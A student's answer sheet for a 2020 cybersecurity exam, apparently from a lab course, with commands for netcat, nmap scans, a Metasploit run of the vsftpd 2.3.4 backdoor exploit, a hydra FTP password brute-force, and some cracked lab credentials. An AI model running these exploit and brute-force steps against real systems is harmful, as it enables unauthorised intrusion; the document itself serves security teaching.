 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
# nc -lp 8888

```
### クライアント側コマンド

```sh
# nc 192.168.33.10 8888

```

## 問2 [Password Crack]

```md
<!--  omas -->
<!--  omas2 foobar -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# nmap -sP 192.168.33.0-127

```

### 2. version scan

```sh
# nmap -sV 192.168.33.5
```

## 問4 [Metasploit Framework]

```sh
1 msfconsole
2 search vsftpd
3 use exploit/unix/ftp/vsftpd_234_backdoor
4 show options
5 set RHOSTS 192.168.33.5
6 exploit
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# hydra -L user.lst -P passwd.list -t 4 192.168.33.5 ftp

```

### 2. 解析結果

```sh

```

## 問6 [Packet Sniffer]

```sh
# http.request

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  12655 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  80点 -->

```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->
- googleの便利さ
- ハッキング
- 初めてやるハッキングやパスワードクラックは楽しかったし、やってみたいと思ってたからできてよかった。また、もっといろんなことやりたいとも思った。
```
